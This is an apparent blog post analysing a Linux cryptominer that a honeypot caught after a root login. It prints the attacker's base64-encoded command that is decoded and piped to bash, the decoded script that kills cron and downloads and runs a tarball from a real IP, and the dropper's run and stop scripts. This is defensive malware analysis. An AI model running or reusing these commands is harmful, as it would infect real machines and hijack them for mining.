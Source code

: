 ```yaml
---
layout: post
title:  "Honey Pot caught linux miner"
by:     "Michael Meade"
---
```


### What the cat brought home

I was looking at my honey pot this morning and I saw a what looked like base64 strings. A lot of time attackers like base64 because it makes it easy for them to bypass detection or even becuase it can ensure that
the string is still the same when ran. The attacker used the login, root/jinsheng to gain access to the honey pot. The Ip address used was: ```54.37.136.183```
In figure 1, we can see the actually command that the attacker used. 
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
Figure 1: the command used to download the malware.
As seen in Figure 1, the attacker first changed the directory to ```/var/tmp````. After changing the directory the base64 encoded string is decoded and than run. In Figure 2, we can see the
decoded base64 string.

```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
Figure 2: the decoded base64 string
As seen in figure 2, the base64 removes the directory ```.X15-unix``` and then creates a new directory named the same thing.
After it creates a new directory the script changes to the newly created directory and also kills the cron process.
Next the the attacker downloads a .tar.gz file from ```http://54.37.70.249/dota2.tar.gz```. 
The script will than change directories to the .rsync and give the all the files in the dirctories permissions, after that it will run the
files ```a``` and ```cron```.


### A Look into the files dropped

In Figure 3, we can see that there is a bunch of folders and files inside the .tz. The attackers used
![Octocat](https://i.imgur.com/jmoC3qM.png=100x20)
Figure 3: the untar-ed contents of ```dota2.tar.gz```

In Figure 4,  we take a peak inside the file at ```a/run``` we can see that its a bash script that job is to check what arch the host machine is using and then runs the correct file. 
```ruby
#!/bin/bash
./stop
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./cron || ./anacron
	fi
echo $! > bash.pid
```
Figure 4: the contents of ```a/run```

In Figure 3, we can see that the ```a/run``` file runs a file called ```./stop```. In Figure 5, we can see that its job is kill any running proccesss called cron. The stop script also removes the file named ```.proc```.

```ruby#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```
Figure 5: the contents of ```a/stop```.


The ```a/``` is too big to share the source code. But In Figure 7, I posted the a pastebin.com of the source code. It looks like someone compiled a bash script of other miners IOC's and created a single script removing all the other miners. The code removes all the directories and kills all the processes. 
```ruby 
https://pastebin.com/raw/yxgk4PAi
```
Figure 7: The ```a/init0``` script




In Figure 8, is the cronjob that the miner created to try to stay on the infected machine as long as possible.

![crontab](https://i.imgur.com/8fSONkN.png=100x20)
Figure 8, cronjobs the malware created<br>

The cronjob will re-infect the machine on reboot. According to the cronjob it will also reinfect the machine every 3 days.<br> 
It will also run the script ```b/sync``` at the 8:05. <br>
